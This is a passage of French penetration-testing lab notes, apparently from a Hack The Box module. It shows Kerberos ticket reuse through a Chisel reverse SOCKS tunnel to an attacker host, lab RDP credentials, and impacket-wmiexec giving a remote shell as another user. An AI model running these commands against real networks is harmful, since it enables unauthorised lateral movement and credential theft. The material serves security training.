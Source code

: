 ### Téléchargez Chisel sur notre hôte d'attaque
```
dsgsec@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
dsgsec@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
dsgsec@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
dsgsec@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

Connectez-vous à MS01 via RDP et exécutez le ciseau (situé dans C:\Tools).

### Connectez-vous à MS01 avec xfreerdp
```
dsgsec@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

### Execute chisel from MS01
```
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```
Enfin, nous devons transférer le fichier ccache de Julio depuis LINUX01 et créer la variable d'environnement KRB5CCNAME avec la valeur correspondant au chemin du fichier ccache.

## Définition de la variable d'environnement KRB5CCNAME
```
dsgsec@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impaquet
Pour utiliser le ticket Kerberos, nous devons spécifier le nom de notre machine cible (pas l'adresse IP) et utiliser l'option -k. Si nous recevons une invite pour un mot de passe, nous pouvons également inclure l'option -no-pass.

### Utilisation d'Impacket avec des chaînes proxy et l'authentification Kerberos
```
dsgsec@htb[/htb]$ proxychains impacket-wmiexec ms01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MS01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio

```
